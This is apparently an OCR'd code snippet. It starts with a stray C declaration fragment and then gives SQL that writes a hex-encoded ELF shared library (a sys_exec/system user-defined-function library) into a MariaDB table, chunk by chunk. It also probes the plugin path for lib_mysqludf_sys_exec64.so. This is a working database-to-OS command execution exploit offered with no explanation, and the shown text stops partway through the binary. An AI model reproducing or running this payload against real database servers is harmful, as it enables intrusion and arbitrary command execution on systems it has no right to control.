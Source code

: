 ```python
}

void sys_exec_deinit(UDF_INIT *initid);
'''
```

```sql
SELECT SLEEP(isnull(LOAD_FILE(0x2f7573722f6c69622f7838365f36342d6c696e75782d676e752f6d61726961646231392f706c7567696e2f6c69625f6d7973716c7564665f7379735f6578656336342e736f)))
DROP TABLE IF EXISTS mysql.temp
CREATE TABLE IF NOT EXISTS mysql.temp (data BLOB)
INSERT INTO mysql.temp (data) VALUES (binary 0x7f454c4602010100000000000000000003003e000100000050100000000000004000000000000000203100000000000000000000400038000900400019001800)
UPDATE mysql.temp SET data = concat(data, binary 0x0100000004000000000000000000000000000000000000000000000000000000c804000000000000c80400000000000000100000000000000100000005000000)
UPDATE mysql.temp SET data = concat(data, binary 0x001000000000000000100000000000000010000000000000c901000000000000c901000000000000001000000000000001000000040000000020000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00200000000000000020000000000000cc00000000000000cc0000000000000000100000000000000100000006000000102e000000000000103e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x103e0000000000001802000000000000200200000000000000100000000000000200000006000000202e000000000000203e000000000000203e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xc001000000000000c001000000000000080000000000000004000000040000003802000000000000380200000000000038020000000000002400000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2400000000000000040000000000000050e57464040000000020000000000000002000000000000000200000000000002c000000000000002c00000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x52e5746404000000102e000000000000103e000000000000103e000000000000f001000000000000f00100000000000001000000000000000400000014000000)
UPDATE mysql.temp SET data = concat(data, binary 0x03000000474e550004f8f1367a08a00b76c1c4cfcf1a685a707e5d0b000000000200000006000000010000000600000000000000040100180600000007000000)
UPDATE mysql.temp SET data = concat(data, binary 0xa968be123b9fd4a00000000000000000000000000000000000000000000000001000000020000000000000000000000000000000000000005e00000012000000)
UPDATE mysql.temp SET data = concat(data, binary 0x000000000000000000000000000000000100000020000000000000000000000000000000000000002c0000002000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x4600000022000000000000000000000000000000000000005500000012000c0005110000000000002f000000000000006500000012000c003411000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x8a00000000000000005f5f676d6f6e5f73746172745f5f005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f72656769737465)
UPDATE mysql.temp SET data = concat(data, binary 0x72544d436c6f6e655461626c65005f5f6378615f66696e616c697a65007379735f657865630073797374656d007379735f657865635f696e6974006c6962632e)
UPDATE mysql.temp SET data = concat(data, binary 0x736f2e3600474c4942435f322e322e3500000000000002000000000002000100010000000000000001000100730000001000000000000000751a690900000200)
UPDATE mysql.temp SET data = concat(data, binary 0x7d00000000000000103e00000000000008000000000000000011000000000000183e0000000000000800000000000000c0100000000000002040000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x08000000000000002040000000000000e03f00000000000006000000010000000000000000000000e83f00000000000006000000030000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xf03f00000000000006000000040000000000000000000000f83f0000000000000600000005000000000000000000000018400000000000000700000002000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
```